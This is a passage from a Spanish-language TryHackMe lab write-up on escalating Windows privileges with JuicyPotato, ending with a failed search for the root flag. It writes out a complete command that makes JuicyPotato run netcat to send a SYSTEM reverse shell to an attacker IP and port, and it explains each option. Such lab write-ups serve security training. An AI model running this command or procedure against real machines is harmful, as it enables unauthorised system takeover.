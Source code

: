 ![16]

Realizamos el mismo procedimiento para el binario de **netcat**:

![17]

Ya con ambos binarios en el sistema, ejecutamos el **JuicyPotato** con el siguiente comando:

	./JP.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\windows\temp\privesc\nc.exe -e cmd.exe 10.10.251.43 443" -t *
	
Desglosemos este comando:

1. El -l se emplea para indicarle a la herramienta el puerto para el servidor COM que crea JuicyPotato para efectuar el token impersonate. La explicación de qué es un servidor COM escapa de los límites de esta guía.
2. Le sigue el programa o script que ejecutará la herramienta (-p), en este caso, será la CMD de Windows.
3. Este programa no puede ser ejecutado solo, por lo que requiere de argumentos (-a) para realizar una acción específica. En este caso, le decimos que ejecute un comando (/c) que emplee el binario de **netcat** y nos devuelva una reverse shell a la IP y puerto especificados.
4. Por último, el -t le indica cómo crear el proceso, y este puede ser de dos formas: CreateProcessWithToken o CreateProcessAsUser. Para no errarle, siempre elegimos hacerlo de ambas maneras con el comodín *.

Antes de ejecutarlo, ya debemos estar en otra consola a la escucha con **netcat** para recibir la reverse shell. Al ejecutarlo, si vemos que la salida finaliza con un **OK**, significa que la herramienta se ejecutó correctamente.

![18]

Como podemos observar, recibimos la shell como un usuario privilegiado del sistema:

![19]

# Flag de root
Este paso no se pudo completar por varias razones. Primero, el sistema no cuenta con un directorio para el usuario **Administrator**, por lo que la flag no se localiza en este directorio. La misma plataforma de TryHackMe nos dice que la flag se encuentra en esta dirección:

	C:\Windows\System32\config
	
Sin embargo, si nos dirigimos a este directorio no veremos nada.

![20]

Peor aún, si buscamos el archivo en todo el sistema (root.txt), la búsqueda no devolverá resultados:

	dir /s "root.txt"
	
![21]

Quiero suponer que es un error en la máquina que borró el archivo, o incluso el archivo podría aparecer si reinicamos la máquina. No quise seguir intentando esto último, así que con haber comprometido la máquina podemos darla por finalizada.
